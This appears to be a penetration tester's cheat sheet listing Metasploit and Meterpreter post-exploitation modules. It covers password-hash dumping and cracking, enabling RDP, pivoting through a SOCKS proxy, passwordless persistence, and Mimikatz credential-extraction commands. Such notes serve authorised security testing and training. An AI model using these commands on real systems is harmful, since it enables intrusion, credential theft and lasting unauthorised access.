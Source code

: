 ### Modules

Potentially useful Metsploit modules to `run` from/besides Meterpreter:

* `post/windows/gather/checkvm` — try to determine if we’re in a VM
* `post/multi/recon/local_exploit_suggester` — find possible privilege escalation exploits (can be slow/unreliably on 64-bit architectures)
* `post/windows/gather/enum_shares` — enumerate shares
* `auxiliary/scanner/smb/smb_enumusers_domain` — enumerate SMB domain users (requires existing admin credentials)
* `post/windows/gather/hashdump` — same as the hashdump command, but pushes the hashes into the Metasploit DB
* `post/windows/gather/smart_hashdump GETSYSTEM=FALSE` — same as the hashdump command, but pushes the hashes into the Metasploit DB and ignores system accounts
* `auxiliary/analyze/crack_windows` — sic John the Ripper or Hashcat on NTLM hashes stored in the Metasploit DB
* `post/windows/manage/enable_rdp` — enable RDP access (requires admin privileges)
* `post/multi/manage/autoroute` — manipulate target routing for pivoting
* `auxiliary/server/socks_proxy` — start a SOCKS proxy
* `exploit/windows/local/persistence` — sets up a persistent connection (you probably want to `set STARTUP SYSTEM`)… *without a password!*

NOTE: It is generally more useful to background Meterpreter and then run these commands through the Metasploit console, as within Meterpreter they need to have all options specified on the “run” command line (in the console you can access help, actually *see* what the options are, etc.).

There seem to be a lot of options for the `post/multi/manage/autoroute` and `auxiliary/server/socks_proxy` modules, but I don’t see a way to access them from Meterpreter (it looks like to get help you need to background Meterpreter and use the console).

The advantage of setting up a SOCKS proxy on the target is that you can then use proxychains to route through the target; this can allow you to pivot more deeply into the network that you’re attacking. (You probably want to create a custom proxychains.conf file to do this. Fortunately, /etc/proxychains.conf is well documented.)

### Loading PowerShell

```meterpreter
load powershell
powershell_shell
```

*Don’t* try to exit PowerShell — trying to do this produces consistent hangs for me. Instead, background the process with `^Z`.

### Using Mimikatz

Use `load kiwi` to load up Mimikatz. Sub-commands:

```meterpreter
kerberos         # Attempt to retrieve kerberos creds
livessp          # Attempt to retrieve livessp creds
mimikatz_command # Run a custom commannd
msv              # Attempt to retrieve msv creds (hashes)
ssp              # Attempt to retrieve ssp creds
tspkg            # Attempt to retrieve tspkg creds
wdigest          # Attempt to retrieve wdigest creds
```
